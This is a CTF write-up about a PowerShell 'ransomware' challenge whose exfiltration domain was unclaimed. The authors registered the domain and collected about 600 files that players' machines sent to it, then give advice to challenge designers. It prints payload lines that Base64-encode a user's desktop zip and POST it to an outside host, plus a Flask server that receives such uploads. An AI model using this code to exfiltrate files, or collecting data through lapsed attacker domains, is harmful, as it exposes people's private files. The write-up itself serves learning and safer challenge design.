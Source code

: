 # How we turned a challenge against the players and creators

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](../IR/IR.md), we noticed that the domain to which all the encrypted files were being sent was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

In the second-last line, you can see the following piece of powershell code:

```ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
```

---

This line sends a variable called `body` to `www.thepowershellhacker.com/exfiltration` in a post request.

The variable `body` is specified a bit earlier in the code:

```ps
$zipFileBytes = Get-Content -Path ("C:\Users\"+$user+"\Downloads\Desktop.zip") -Raw -Encoding Byte
$zipFileData = [Convert]::ToBase64String($zipFileBytes)
$body = ConvertTo-Json -InputObject @{file=$zipFileData}
```

Here we can clearly see that a zip file from the desktop (containing every file from the desktop) gets encoded in Base64, and then transferred into a Json object.

---

Out of curiosity, we quickly checked if the domain `thepowershellhacker.com` was claimed, expecting it to be.

However, to our surprise, it wasn't!
![](claimed.png)

_A Dutch website to check if the domain is available for sale._

## What now?

---

After we claimed the domain, we went ahead and set up a python web server, which would listen for incoming requests:

```python
from flask import Flask, request, jsonify
import time

app = Flask(__name__)

@app.route('/exfiltration', methods=['POST'])
def result():

    fileName = str(time.time()) + '.base64.zip'
    f = open(fileName, 'w+')

    receivedFile = request.get_json(force=True)['file']
    f.write(receivedFile)

    f.close()
    return "", 200

if __name__ == '__main__':
    app.run(host="127.0.0.1", port=2001)
```

This python web server would receive the base64 encoded payload from the body, pull it out of the json object, and put it in a file.

## What did we receive?

After the Nahamcon CTF ended, we went ahead and checked how many files we received:
![](results.png)

We received a total of 600 files, that's insane!
Sadly, after mass decrypting all the files we received, we came to the conclusion that there are _only_ 33 files that are from something other than this ctf.
Here's a list of all the files that were not part of the CTF challenge:

```
Ableton Live 11 Suite.lnk
asdf
ASDF
asdf.ps1
Autoruns.lnk
available_packages.txt
Bitdefender.lnk
config.xml
desktop.ini
failed_packages.txt
fakenet_logs.lnk
file.txt
flare-vm-4
Ghost Toolbox.lnk
HitmanPro.Alert.lnk
imac.py
kanker.txt
New Text Document.txt
nice.ps1
NPE.lnk
ProcessExplorer.lnk
PSDecode.ps1
QQ.lnk
readme.txt
TCPView.lnk
Telegram.lnk
test.txt
tes.txt
Tools.lnk
UpdateHealthTools.001.etl
UpdateHealthTools.001.evtx
x32dbg.lnk
x64dbg.lnk
```

A lot of these files end in `.lnk`, which means they are windows file shortcuts. They're not interesting.

After manually going through all the files, we concluded that nothing really of interest was captured. This means that almost everyone was smart enough to not run this on their own desktop environment but in the VM supplied by the Nahamcon CTF.

We'd also like to note that we didn't receive anything that could be identified back to a specific users, nor did we receive any sensitive files. Next to that, we'll destroy all the files and logs we've received.

## Was this a waste of time?

No, this absolutely wasn't a waste of our time and resources. First of all, the CTF challenge in itself was already pretty fun to solve. Next to that, we quite enjoyed the process of making all of our quick and dirty tools. From the python web server, to the mass decoders. We're also delighted to see that almost everyone ran the "ransomware" in the Virtual Machine supplied by the CTF organizers, and not on their own machine.

We absolutely loved the process we went through by making this.

## Avoiding such problems in the future

Adding web requests to a CTF challenge can add flavour and make it more engaging, but how to best avoid such mistakes?

- First of all, make sure you have full control over the domain or IP you include in the challenge.
- However, if that's not feasible, using a non-existent TLD, like `hacker.d0main` makes it impossible for someone to claim such a domain.
- Eventually, one can include an IPv4 address that starts with `127`. For example, 127.13.65.78 and 127.84.65.183 both point to localhost, making sure the requests won't leave the competitor's machine.

---

> _We want to thank Nahamsec and John Hammond for making and hosting this Capture the Flag tournament. And we'd also like to thank `@awesome10billion#1164` for making the forensics challenge. We quite enjoyed it._

###### Written by Crunch & Chillz
